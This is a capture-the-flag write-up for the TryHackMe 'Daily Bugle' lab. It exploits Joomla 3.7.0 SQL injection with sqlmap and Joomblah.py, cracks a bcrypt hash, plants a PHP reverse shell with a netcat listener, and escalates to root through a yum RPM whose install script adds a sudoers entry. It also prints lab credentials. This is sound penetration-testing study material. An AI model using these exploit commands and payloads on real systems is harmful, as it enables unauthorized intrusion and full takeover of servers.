![Screenshot 2023-09-12 141646.png](daily_bugle%20451d51520e294724a2cc0100e38d7457/5a1494ff275a366be8418a9bf831847c.png)

![Screenshot 2023-09-12 141646.png](daily_bugle%20451d51520e294724a2cc0100e38d7457/H98yNCQ.png)

# daily_bugle

DailyBugle is a CTF Linux box with difficulty rated as “high” on the TryHackMe platform. The machine covers Joomla 3.7.0 SQL injection vulnerability and privilege escalation using yum.

## Network Scanning

```bash
nmap -sC -Pn -T4 10.10.10.230 -oN nmap_result.txt
```

![Screenshot 2023-09-12 141646.png](daily_bugle%20451d51520e294724a2cc0100e38d7457/Screenshot_2023-09-12_141646.png)

## Enumeration

We have identified a robots.txt file containing an administrator directory.

![Screenshot 2023-09-12 144348.png](daily_bugle%20451d51520e294724a2cc0100e38d7457/Screenshot_2023-09-12_144348.png)

Upon opening this directory we found out that an instance of Joomla was running on this website.

![Screenshot 2023-09-12 144955.png](daily_bugle%20451d51520e294724a2cc0100e38d7457/Screenshot_2023-09-12_144955.png)

Joomla is a free and open-source content management system (CMS) that is used to build websites and online applications. Now we have to scan the Joomla with the help of joomscan to find the version and other pieces of information.

```bash
joomscan -u http://10.10.10.230
```

![Screenshot 2023-09-12 145601.png](daily_bugle%20451d51520e294724a2cc0100e38d7457/Screenshot_2023-09-12_145601.png)

Right away we looked out for public exploits for this installed instance using searchsploit and discovered that version 3.7.0 was vulnerable to SQLi via the com_fields parameter.

```bash
searchsploit joomla 3.7.0
searchsploit -m 42033
```

![Screenshot 2023-09-12 145811.png](daily_bugle%20451d51520e294724a2cc0100e38d7457/Screenshot_2023-09-12_145811.png)

![Screenshot 2023-09-12 150400.png](daily_bugle%20451d51520e294724a2cc0100e38d7457/Screenshot_2023-09-12_150400.png)

## **Exploitation**

As exploit number 42033 told us, this sql injection vulnerability could be exploited by the following command

```bash
sqlmap -u "http://10.10.10.230/index.php?option=com_fields&view=fields&layout=modal&list[fullordering]=updatexml" --risk=3 --level=5 --random-agent --dbs -p list[fullordering] --batch
```

![Screenshot 2023-09-12 151111.png](daily_bugle%20451d51520e294724a2cc0100e38d7457/Screenshot_2023-09-12_151111.png)

However, while running this scan, it was taking way too long and so, we looked out for another script called “[Joomblah.py](http://joomblah.py/)” which is a POC for this SQLi vulnerability in Joomla v3.7.0. So we downloaded this script, ran and found credentials!

```bash
wget https://raw.githubusercontent.com/XiphosResearch/exploits/master/Joomblah/joomblah.py
python2.7 joomblah.py http://10.10.10.230
```

![Screenshot 2023-09-12 151251.png](daily_bugle%20451d51520e294724a2cc0100e38d7457/Screenshot_2023-09-12_151251.png)

Now we have to identify the hash type. So we use hashid to identify the hash and after analysing the hash through hashid we are sure that it is bcrypt hash.

![Screenshot 2023-09-15 165244.png](daily_bugle%20451d51520e294724a2cc0100e38d7457/Screenshot_2023-09-15_165244.png)

Thus we saved this hash in a file and Now we have to crack the hash with the help of john the ripper tool and the cracked password we obtain is `spiderman123`

```bash
echo '$2y$10$0veO/JSFh4389Lluc4Xya.dfy2MF.bZhz0jVMw.V.d3p12kBtZutm' > hash.txt
john --format=bcrypt hash.txt --wordlist=/usr/share/wordlists/rockyou.txt
```

![Screenshot 2023-09-15 132206.png](daily_bugle%20451d51520e294724a2cc0100e38d7457/Screenshot_2023-09-15_132206.png)

We see we have received clear text credentials. We logged in to the admin panel using this and can see a dashboard now!

![Screenshot 2023-09-15 170753.png](daily_bugle%20451d51520e294724a2cc0100e38d7457/Screenshot_2023-09-15_170753.png)

Like with any other CMS, Joomla also has templates that are running on PHP, therefore, right away we copied the php-reverse-shell.php code in the template file and clicked on template preview. Before launching template preview we also set up a netcat listener

```bash
nc -lnvp 4444
```

![Screenshot 2023-09-15 172840.png](daily_bugle%20451d51520e294724a2cc0100e38d7457/Screenshot_2023-09-15_172840.png)

On our listener we see a shell popped up!

## ****Privilege Escalation****

Now that we have a working TTY on the victim box, we started looking for ways to escalate privileges. We checked the sudoers file but nothing was found.

![Screenshot 2023-09-15 174041.png](daily_bugle%20451d51520e294724a2cc0100e38d7457/Screenshot_2023-09-15_174041.png)

After a quick system check and looking at the website’s files, we found a configuration file that had credentials of a database. root user had the password: **nv5uz9r3ZEDzVjNu**

```bash
cd /var/www/html
cat configuration.php
```

![Screenshot 2023-09-15 174331.png](daily_bugle%20451d51520e294724a2cc0100e38d7457/Screenshot_2023-09-15_174331.png)

Now, we tried to login into another existing user jjameson using this password and it worked! We immediately spawned a stable teletype using python. Thereafter, we looked into the sudoers file and found yum in the entries.

```bash
su jjameson
nv5uz9r3ZEDzVjNu
sudo -l
```

![Screenshot 2023-09-15 174842.png](daily_bugle%20451d51520e294724a2cc0100e38d7457/Screenshot_2023-09-15_174842.png)

![Screenshot 2023-09-15 175052.png](daily_bugle%20451d51520e294724a2cc0100e38d7457/Screenshot_2023-09-15_175052.png)

Referring to gtfobins post **[here](https://gtfobins.github.io/gtfobins/yum/)** we can escalate our privileges by creating our custom RPM executable. For this we need rpm, fpm to be installed first. Thereafter, we’ll copy a command into a shell script. This echo command simply adds my user jjameson into the sudoers file so that any command can be run as root. This would be our payload. Then we create an rpm package using fpm package.

```bash
apt install rpm
gem install fpm
echo 'echo "jjameson ALL=(root) NOPASSWD:ALL" >> /etc/sudoers' > my.sh
fpm -n root -s dir -t rpm -a all --before-install my.sh .
python3 -m http.server 80
```

![Screenshot 2023-09-15 175427.png](daily_bugle%20451d51520e294724a2cc0100e38d7457/Screenshot_2023-09-15_175427.png)

Now all that’s left to do was to copy this file into /tmp directory on the victim’s box.

```bash
cd /tmp
wget http://10.17.11.201/root-1.0-1.noarch.rpm
```

So, we downloaded it and ran using yum localinstall command. It ran successfully! We ran bash shell as sudo and as expected jjameson (my user) ran it as root and thus privileges were escalated! Finally, we read the congratulatory flag!

```bash
sudo yum localinstall -y root-1.0-1.noarch.rpm
sudo bash
cd /root
cat root.txt
```

![Screenshot 2023-09-15 175920.png](daily_bugle%20451d51520e294724a2cc0100e38d7457/Screenshot_2023-09-15_175920.png)

![Screenshot 2023-09-15 175956.png](daily_bugle%20451d51520e294724a2cc0100e38d7457/Screenshot_2023-09-15_175956.png)